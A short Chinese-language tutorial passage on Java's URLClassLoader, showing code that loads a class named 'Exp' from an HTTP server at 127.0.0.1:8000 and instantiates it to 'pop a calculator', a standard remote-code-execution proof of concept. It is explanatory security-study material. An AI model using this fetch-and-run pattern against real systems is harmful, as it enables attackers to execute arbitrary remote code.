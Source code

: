 3、**URL以斜杠/结尾，且协议名不是 `file` ，则使用最基础的 `Loader` 来寻找类`.class`文件。**

```java
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;

public class loadClassFile {
    public static void main(String[] args) throws MalformedURLException, ClassNotFoundException, IllegalAccessException, InstantiationException {
        URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("http://127.0.0.1:8000/")});
        // 会加载 http://127.0.0.1:8000/Exp.class
        Class<?> exp = urlClassLoader.loadClass("Exp");
        // 触发构造函数，弹计算器
        exp.newInstance();
    }
}
```

